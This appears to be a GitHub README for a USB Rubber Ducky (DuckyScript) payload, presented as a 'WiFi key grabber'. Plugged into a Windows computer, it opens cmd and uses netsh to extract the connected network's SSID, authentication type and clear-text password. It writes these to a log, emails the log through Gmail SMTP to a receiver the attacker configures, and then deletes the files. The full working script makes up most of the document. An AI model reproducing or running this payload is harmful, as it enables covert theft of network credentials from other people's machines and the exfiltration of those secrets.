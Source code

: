 # This payload:
1. Opens CMD
2. Finds the key (password) of the WiFi the target is connected to
3. Saves the SSID, Network type, Authentication and the key to Log.txt
4. And emails Log.txt via gmail

### Change the following things;
* **ACCOUNT**: Your **gmail account**
* **PASSWORD**: Your **gmail password**
* **RECEIVER**: The email you want to send Log.txt to

If you have **any suggestions** please **tell me**.

## **Code**:
 REM Author: Siem
 REM Version: 1
 REM Description: Clear text WiFi key grabber
 DELAY 2000
 WINDOWS d
 REM --> Open cmd
 WINDOWS r
 DELAY 500
 STRING cmd
 ENTER
 DELAY 1000
 REM --> Change directory (you can change this to something else to make less visible)
 STRING cd "%USERPROFILE%\Desktop"
 ENTER
 REM --> Get SSID
 STRING for /f "tokens=2 delims=: " %A in ('netsh wlan show interface ^| findstr "SSID" ^| findstr /v "B"') do set SSID=%A
 ENTER
 REM --> Get network type
 STRING netsh wlan show profiles %SSID% | findstr "Network type" | findstr /v "broadcast" | findstr /v "Radio">Temp.txt
 ENTER
 STRING for /f "tokens=3 delims=: " %A in ('findstr "Network type" Temp.txt') do set NETTYPE=%A
 ENTER
 REM --> Get authentication
 STRING netsh wlan show profiles %SSID% | findstr "Authentication">Temp.txt
 ENTER
 STRING for /f "tokens=2 delims=: " %A in ('findstr "Authentication" Temp.txt') do set AUTH=%A
 ENTER
 REM --> Get key
 STRING netsh wlan show profiles %SSID% key=clear | findstr "Key Content">Temp.txt
 ENTER
 STRING for /f "tokens=3 delims=: " %A in ('findstr "Key Content" Temp.txt') do set KEY=%A
 ENTER
 REM --> Delete Temp.txt
 STRING del Temp.txt
 ENTER
 REM --> Create Log.txt
 STRING echo SSID: %SSID%>>Log.txt & echo Network type: %NETTYPE%>>Log.txt & echo Authentication: %AUTH%>>Log.txt & echo Password: %KEY%>>Log.txt
 ENTER
 REM --> Mail Log.txt
 STRING powershell
 ENTER
 STRING $SMTPServer = 'smtp.gmail.com'
 ENTER
 STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
 ENTER
 STRING $SMTPInfo.EnableSsl = $true
 ENTER
 STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('ACCOUNT@gmail.com', 'PASSWORD');
 ENTER
 STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
 ENTER
 STRING $ReportEmail.From = 'ACCOUNT@gmail.com'
 ENTER
 STRING $ReportEmail.To.Add('RECEIVER@gmail.com')
 ENTER
 STRING $ReportEmail.Subject = 'WiFi'
 ENTER
 STRING $ReportEmail.Body = 'The log is attached!' 
 ENTER
 STRING $ReportEmail.Attachments.Add('Log.txt')
 ENTER
 STRING $SMTPInfo.Send($ReportEmail)
 ENTER
 STRING exit
 ENTER
 REM --> Delete Log.txt and exit
 STRING del Log.txt & exit
 ENTER